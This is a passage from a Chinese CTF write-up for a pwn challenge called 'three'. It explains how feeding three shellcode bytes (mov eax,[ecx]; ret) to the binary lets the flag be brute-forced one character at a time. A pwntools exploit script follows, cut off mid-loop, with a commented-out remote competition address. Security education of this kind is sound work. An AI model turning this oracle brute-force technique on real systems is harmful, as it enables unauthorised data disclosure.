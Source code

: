最后flag就是decode_input的md5值.

## Pwn (by pwnht)

### three

![](/assets/images/move/1573440323504.png)

这个就不算漏洞函数了吧，算是后门函数，让你读三个bit去之后执行这个三个bit如果返回结果正确就就输出1，不然输出二，如果仔细观察内存的话call这个3bit的时候，寄存器的ecx是我们之前tell me输入的buf的指针，正好 **asm(mov eax,[ecx],ret)** 是三个字节，所以，爆破就完事了

```python
from pwn import *
__author__ = '3summer'
s       = lambda data            :io.send(str(data)) 
sa      = lambda delim,data      :io.sendafter(str(delim), str(data))
sl      = lambda data            :io.sendline(str(data))
sla     = lambda delim,data      :io.sendlineafter(str(delim), str(data))
r       = lambda numb=4096       :io.recv(numb)
ru      = lambda delims,drop=True:io.recvuntil(delims, drop)
irt     = lambda                  :io.interactive()
uu32    = lambda data            :u32(data.ljust(4, '\0'))
uu64    = lambda data            :u64(data.ljust(8, '\0'))
code = '\x8b\x01\xc3'
io = None
flag = []
for i in range(0x20):
    for j in range(30, 128):
        try:
            io = process('./pwn')
#           io=remote("47.104.190.38",12001)
            sla('index:\n',str(i))
            sa('much!\n',code)
            sla('size:\n','2')
            sa('Tell me:\n',chr(j))
```